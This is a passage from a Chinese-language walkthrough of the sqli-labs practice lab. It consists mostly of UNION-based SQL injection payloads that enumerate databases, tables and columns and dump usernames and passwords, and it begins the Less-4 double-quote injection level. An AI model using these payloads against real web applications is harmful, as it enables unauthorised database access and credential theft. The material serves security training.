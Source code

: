 4.爆所有库.

```
id=1') and 1=2 union select 1,database(),3 --+   查看当前库

id=1') and 1=2 union select 1,group_concat(schema_name),3 from information_schema.schemata --+   查看所有库
```

5.爆指定库的所有表

```
id=1') and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
或者
id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

6.爆指定表的所有字段

```
id=1') and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+
```

7.爆出字段内容

```
id=1') and 1=2 union select 1,username,password from users where id=1 --+

id=1') and 1=2 union select 1,group_concat(username),group_concat(password) from security.users --+
```

# **Less-4 **

**GET - Error based - Double Quotes - String （基于错误的GET双引号字符型注入）**



### 方法一：**手工UNION联合查询注入**

1.判断是否能够注入

```
http://daishen.ltd:1112/Less-4/?id=1
```

2.判断表中存在几个字段

```
id=1") order by 3 --+
```

3.判断字段位置

```
id=1") and 1=2 union select 1,2,3 --+
```
